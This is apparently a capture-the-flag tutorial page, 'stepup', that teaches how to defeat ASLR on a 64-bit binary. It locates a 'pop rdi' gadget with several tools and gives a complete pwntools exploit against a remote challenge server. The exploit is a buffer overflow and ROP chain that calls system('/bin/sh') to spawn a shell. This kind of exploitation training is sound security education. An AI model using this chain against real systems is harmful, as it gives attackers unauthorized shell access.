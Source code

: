 ```yaml
---
description: Beating ASLR again, using 64-bit this time.
---
```


# stepup

{% file src="../../.gitbook/assets/stepup.zip" %}

This binary is similar to the last one, so we'll be reusing most of the same techniques. This time, we'll need a way to pass the `/bin/sh` address into `rdi`, which will require a gadget to do this.

### Getting our Gadget

We'll do this the same way that we did it in the ROP chapter. We use `ROPgadget` or `ropper` to search for a gadget that will pop the top of the stack into `rdi`:

{% tabs %}
{% tab title="ROPgadget" %}
```bash
$ ROPgadget --binary stepup | grep "pop rdi"
0x00000000004011db : pop rdi ; ret
```
{% endtab %}

{% tab title="ropper" %}
```bash
$ ropper -f stepup --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: stepup
0x00000000004011db: pop rdi; ret; 
```
{% endtab %}

{% tab title="Radare2" %}
```bash
[0x00401169]> /R pop rdi
  0x004011db                 5f  pop rdi
  0x004011dc                 c3  ret
```
{% endtab %}
{% endtabs %}

This is perfect. We'll use this gadget to pop the address of `/bin/sh` into `rdi` before calling `system()`.

### Writing the Exploit

This binary is nearly identical to the last one. We are provided the address of `system()`, so we can just use that directly. Checking `read_in`, we'll notice that it takes `40` bytes to reach the return pointer.

This is everything we need to write the exploit:

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

elf = context.binary = ELF('./stepup')
libc = elf.libc
p = remote('vunrotc.cole-ellis.com', 6200)

p.recvuntil(b'at: ')
leak = int(p.recvline(), 16)
libc.address = leak - libc.sym.system
log.success(f'LIBC base: {hex(libc.address)}')

g_popRdi = 0x4011db

payload = b'A' * 40
payload += p64(g_popRdi)
payload += p64(next(libc.search(b'/bin/sh')))
payload += p64(libc.sym.system)

p.sendline(payload)
p.interactive()
```
{% endcode %}

Running this gets our flag! We beat ASLR in 64-bit, which was no different than in 32-bit. The only difference is that we had to use 64-bit gadgets and addresses.
